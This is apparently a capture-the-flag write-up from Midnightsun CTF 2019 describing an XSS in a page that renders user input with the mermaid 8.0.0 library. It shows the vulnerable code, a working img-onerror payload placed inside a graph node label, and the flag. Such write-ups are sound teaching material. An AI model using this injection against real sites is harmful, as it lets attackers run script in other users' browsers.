 ```yaml
---
layout:     post
title:      'Midnightsun CTF 2019 - Marcozuckerbergo'
date:       2019-04-06 0:00:00
author:     'W3ndige'
permalink: /:title/
category: 'Midnightsun CTF 2019'
---
```


After last challenge we'll move onto the one that is a continuation of the previous `Marcodowno` challenge. Once again we have to find a XSS vulnerability in a website that triggers without any user interaction, but this time the vulnerable code has changed. 

```
Fine, I'll use a damn lib. Let's see if it's any better.

    Service: http://marcozuckerbergo-01.play.midnightsunctf.se:3002 
```

Let's jump straight to the code, as we're already familiar with the functionality from the previous challenge and not much has changed. 

```javascript
input = decodeURIComponent(location.search.match(/input=([^&#]+)/)[1]);

window.onload=function(){
  $("#markdown").text(input);
  $("#render").text($("#markdown").text());
  mermaid.init(undefined, $("#render"));
}

function rerender(){
  try{
    $("#render").html();$("#render").removeAttr("data-processed");$("#render").text($("#markdown").text());mermaid.init(undefined, $("#render"));
  }catch(x){
    $("#render").html("<font id='error' color=red></font>");
    $("#error").text(x);
  }
}

```

This time, instead of using a bunch of `regexp`, we have a library called `mermaid`. We can see that it's up to date with version `8.0.0` used.

```javascript
    <script src="https://cdnjs.cloudflare.com/ajax/libs/mermaid/8.0.0/mermaid.min.js"></script>
    <script>mermaid.initialize({startOnLoad:false});</script>
```

Mermaid is a simple markdown-like script language for generating charts from text via Javascript. We can see how it's used in many examples available in [documentation](https://mermaidjs.github.io/).

```markdown
sequenceDiagram
    Alice->>John: Hello John, how are you?
    John-->>Alice: Great!
```

Firstly, I've tried to look for vulnerabilities online but no luck. After spending some more time online, I've found a way to place `html` into a node in chart.

```markdown
graph LR
id1(<h1>Hello</h1>)
```

![marcozuckerbergo-html](/img/midnightsun/marcozuckerbergo-html.png)

And it's actually working. But I could not get `<script>alert(1)</script>` to spawn, something in the library was throwing errors. Upon further examination, I've noticed that it's not the `script` that causes the error but `()` characters. 

As I knew the cause, I've decided to search in Google for similar problems and maybe, solutions? And with [this](https://github.com/knsv/mermaid/issues/213) issue, I've found a solution working with the XSS in `img` tag. 

```markdown
graph LR
id1("<img src='' onerror='alert(1)'></img>")
```

![marcozuckerbergo-xss](/img/midnightsun/marcozuckerbergo-xss.png)

With the working exploit, we can submit the `URL` and get the flag. 

```
midnight{1_gu3zz_7rust1ng_l1bs_d1dnt_w0rk_3ither:(}
```